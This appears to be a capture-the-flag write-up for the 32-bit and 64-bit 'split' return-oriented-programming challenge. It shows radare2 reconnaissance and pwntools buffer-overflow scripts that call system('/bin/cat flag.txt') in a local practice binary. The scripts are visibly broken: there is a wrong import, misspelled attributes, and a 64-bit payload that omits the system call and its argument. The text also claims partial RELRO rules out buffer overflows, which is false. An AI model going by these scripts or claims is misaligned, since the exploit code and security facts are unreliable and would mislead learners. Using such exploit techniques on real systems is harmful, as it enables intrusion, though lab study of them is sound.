




# Split 32 bit

As usual we run **rabin2 -I split** to see what kind of protection are enabled.



As we can see that the protection enabled are:

* NX, so the stack is not executable.
* PIC (Position Indipendent Code), it is used to load shared libraries in
location on each program address space where it will not overlap any other uses
of memory.
* RELRO (Relocation Read-Only), so the GOT is read only. In this case is partial
enabled so the PLT part of the GOT is writtable, in this case we can not use
baffer overflow attacks.

Now as always we run **iz** after we run **radare2 split** to see all the
strings that are present in the data section. If we want to see the strings in
all the binary we use **izz**.



In the result we see that is present a **/bin/cat flag.txt**, now we can use is
address to find all the reference to that string in tha binary, (**axt** command).
But the result is empty so there is no function that call that string. But we save
his address to use it in the exploit.

Now we can open the binary with radare2 and seek (s) the main and enter in
visual mode (V), now we see that the only call that we interest in is the pwnme.



In this function we see that the binary allocate 0x20 (32) bytes for the buffer,
but then it use 0x60 (96) as number of bites to read.

Then if we list all the function in the binary we find: **usefulFunction**.



As we see there is a call to system, we save his address.

```python
import pwntools

elf = context.binary = ELF('split32')
context.log_level = 'debug'
system_parameter = p32(0x0804a030)
system = p32(elf.symbols.system)
system = p32(0x0804861a)

# We get the length of our junk part of the payload
io = process(elf.path)
io.sendline(cyclic(100))
io.wait()
eip = io.core.eip
offset = cyclic_find(eip)

payload = 'A'*offset + system + system_parameter

p = process(elf.path)
p.sendline(payload)
p.readall()
```

# Split 64 bit

We use radare2 function "iz" to find the string "/bin/cat/ flag.txt"
(0x00601060), this is the parameter that we pass to system.

Then we need the address of the function system, we can get it with pwntools.

Now we need a function to overflow, we can use the function pwnme that give us a
uverflow of 92 bytes in total.

[Overflow](./images/01_00.png)

Then we need a to create our ROP, to do so we need a sequence of "pop rdi, ret"
because we are in 64 bit. We can use the function "/a pop rdi, ret" or radare2,
we get the address "0x004007c3"

[ROP data](./images/01_01.png)

## Script

```python
from pwn import *

elf = context.binary = ELF('split')
context.log_level = 'debug'
system_parameter = 0x00601060
system = p64(elf.symbols.system)
info("target string %#x", system_parameter)
info("address of system() %x", system)

gadget = p64(0x004007c3)

io = process(elf.path)
io.sendline(cyclic(128))
io.wait()
core = io.corefile
stack = core.rsp
info("stack: %#x", stack)
pattern = core.read(stack, 4)
offset = cyclic.find(pattern)
info("pattern: %#x", pattern)
padding = cyclic(offset)

payload = padding + gadget
info("ROP Payload: %s", payload)

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recv()

core = io.corefile
stack = core.risp
pattern = core.read(stack, 4)
info("pattern: %r", pattern)
```
